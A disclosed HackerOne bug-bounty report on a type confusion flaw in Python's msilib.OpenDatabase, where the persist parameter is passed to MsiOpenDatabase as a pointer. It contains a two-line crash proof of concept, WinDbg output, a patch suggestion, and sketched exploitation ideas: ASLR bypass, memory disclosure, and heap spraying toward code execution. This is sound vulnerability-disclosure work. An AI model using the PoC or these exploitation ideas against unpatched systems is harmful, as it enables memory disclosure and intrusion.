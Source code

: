 # msilib.OpenDatabase Type Confusion

## Report Details
- **Report ID**: 167688
- **URL**: https://hackerone.com/reports/167688
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-09-12T04:21:54.616Z
- **Disclosed**: 2016-09-20T05:38:52.437Z

## Reporter
- **Username**: johnleitch
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
I have reported a vulnerability in Python that is now fixed. My patch was accepted with minor changes.

---

http://bugs.python.org/issue24594

The msilib.OpenDatabase method suffers from a type confusion vulnerability caused by the behavior of MsiOpenDatabase(), the underlying win32 function utilized. This is due to the unorthodox handling of the szPersist parameter: when an MSIDBOPEN_* value is passed, it is treated as a predefined persistence mode. However, when a larger value is passed, it is treated as a string pointer, which is used as the path to a new file.

Because the Python method msilib.OpenDatabase passes its persist parameter through to MsiOpenDatabase, it may be possible for an attacker to trigger the type confusion bug should the seemingly innocuous persist parameter be exposed as attack surface. This could have a few consequences: 

1) An attacker might be able to leverage this vulnerability to probe for valid addresses, which could then be used in another exploit to bypass ASLR/DEP.
2) An attacker might be able to leverage this vulnerability to dereference aribtrary values in memory, disclosing secrets. 
3) An attacker may be able to spray memory with specially crafted string values, then leverage this vulnerability to pass one of the values as a persist string. Because this would lead to the creation of an MSI file in a location now controlled by the attacker, it could potentially be exploited to achieve remote code execution.

A Python script that demonstrates the vulnerability is as follows:

import msilib
msilib.OpenDatabase("",0x41414141)

And it produces the following exception:

0:000> r
eax=41414141 ebx=00000000 ecx=0027f8c0 edx=41414142 esi=0027f8c0 edi=00000000
eip=757252aa esp=0027f874 ebp=0027f89c iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
KERNELBASE!lstrlenA+0x1a:
757252aa 8a08            mov     cl,byte ptr [eax]          ds:002b:41414141=??
0:000> !analyze -v -nodb
*******************************************************************************
*                                                                             *
*                        Exception Analysis                                   *
*                                                                             *
*******************************************************************************


FAULTING_IP: 
KERNELBASE!lstrlenA+1a
757252aa 8a08            mov     cl,byte ptr [eax]

EXCEPTION_RECORD:  ffffffff -- (.exr 0xffffffffffffffff)
ExceptionAddress: 757252aa (KERNELBASE!lstrlenA+0x0000001a)
   ExceptionCode: c0000005 (Access violation)
  ExceptionFlags: 00000000
NumberParameters: 2
   Parameter[0]: 00000000
   Parameter[1]: 41414141
Attempt to read from address 41414141

CONTEXT:  00000000 -- (.cxr 0x0;r)
eax=41414141 ebx=00000000 ecx=0027f8c0 edx=41414142 esi=0027f8c0 edi=00000000
eip=757252aa esp=0027f874 ebp=0027f89c iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
KERNELBASE!lstrlenA+0x1a:
757252aa 8a08            mov     cl,byte ptr [eax]          ds:002b:41414141=??

FAULTING_THREAD:  00000d38

PROCESS_NAME:  python.exe

ERROR_CODE: (NTSTATUS) 0xc0000005 - The instruction at 0x%08lx referenced memory at 0x%08lx. The memory could not be %s.

EXCEPTION_CODE: (NTSTATUS) 0xc0000005 - The instruction at 0x%08lx referenced memory at 0x%08lx. The memory could not be %s.

EXCEPTION_PARAMETER1:  00000000

EXCEPTION_PARAMETER2:  41414141

READ_ADDRESS:  41414141 

FOLLOWUP_IP: 
msi!CApiConvertString::operator unsigned short const *+1b1d
622e1fa1 40              inc     eax

NTGLOBALFLAG:  70

APPLICATION_VERIFIER_FLAGS:  0

APP:  python.exe

ANALYSIS_VERSION: 6.3.9600.17029 (debuggers(dbg).140219-1702) x86fre

BUGCHECK_STR:  APPLICATION_FAULT_INVALID_POINTER_READ_FILL_PATTERN_41414141

PRIMARY_PROBLEM_CLASS:  INVALID_POINTER_READ_FILL_PATTERN_41414141

DEFAULT_BUCKET_ID:  INVALID_POINTER_READ_FILL_PATTERN_41414141

LAST_CONTROL_TRANSFER:  from 622e1fa1 to 757252aa

STACK_TEXT:  
0027f89c 622e1fa1 41414141 41414141 623e22d0 KERNELBASE!lstrlenA+0x1a
0027fcfc 1d162217 01c54334 41414141 0027fd10 msi!CApiConvertString::operator unsigned short const *+0x1b1d
0027fd18 1e0aafd7 00000000 01d86940 01d7ea08 _msi!msiopendb+0x37
0027fd30 1e0edd10 01d7ea08 01d86940 00000000 python27!PyCFunction_Call+0x47
0027fd5c 1e0f017a 0027fdb4 01c86b18 01c86b18 python27!call_function+0x2b0
0027fdcc 1e0f1150 01cb4030 00000000 01c86b18 python27!PyEval_EvalFrameEx+0x239a
0027fe00 1e0f11b2 01c86b18 01cb4030 01c8aa50 python27!PyEval_EvalCodeEx+0x690
0027fe2c 1e11707a 01c86b18 01c8aa50 01c8aa50 python27!PyEval_EvalCode+0x22
0027fe44 1e1181c5 01d43a20 01c8aa50 01c8aa50 python27!run_mod+0x2a
0027fe64 1e118760 68e87408 003f2e93 00000101 python27!PyRun_FileExFlags+0x75
0027fea4 1e1190d9 68e87408 003f2e93 00000001 python27!PyRun_SimpleFileExFlags+0x190
0027fec0 1e038d35 68e87408 003f2e93 00000001 python27!PyRun_AnyFileExFlags+0x59
0027ff3c 1d00116d 00000002 003f2e70 003f1940 python27!Py_Main+0x965
0027ff80 75847c04 7ffde000 75847be0 0c2f39c0 python!__tmainCRTStartup+0x10f
0027ff94 77c9b90f 7ffde000 0e681648 00000000 KERNEL32!BaseThreadInitThunk+0x24
0027ffdc 77c9b8da ffffffff 77c806e0 00000000 ntdll!__RtlUserThreadStart+0x2f
0027ffec 00000000 1d001314 7ffde000 00000000 ntdll!_RtlUserThreadStart+0x1b


STACK_COMMAND:  .cxr 0x0 ; kb

SYMBOL_STACK_INDEX:  1

SYMBOL_NAME:  msi!CApiConvertString::operator unsigned short const *+1b1d

FOLLOWUP_NAME:  MachineOwner

MODULE_NAME: msi

IMAGE_NAME:  msi.dll

DEBUG_FLR_IMAGE_TIMESTAMP:  5450468f

FAILURE_BUCKET_ID:  INVALID_POINTER_READ_FILL_PATTERN_41414141_c0000005_msi.dll!CApiConvertString::operator_unsigned_short_const_*

BUCKET_ID:  APPLICATION_FAULT_INVALID_POINTER_READ_FILL_PATTERN_41414141_msi!CApiConvertString::operator_unsigned_short_const_*+1b1d

ANALYSIS_SOURCE:  UM

FAILURE_ID_HASH_STRING:  um:invalid_pointer_read_fill_pattern_41414141_c0000005_msi.dll!capiconvertstring::operator_unsigned_short_const_*

FAILURE_ID_HASH:  {11693fba-32c4-0880-2440-574cbd780159}

Followup: MachineOwner
---------

To fix the issue, msiopendb() should perform whitelist validation of the persist value to confirm that it is a valid MSIDBOPEN_* constant. A proposed patch is attached.

## Attachments
No attachments
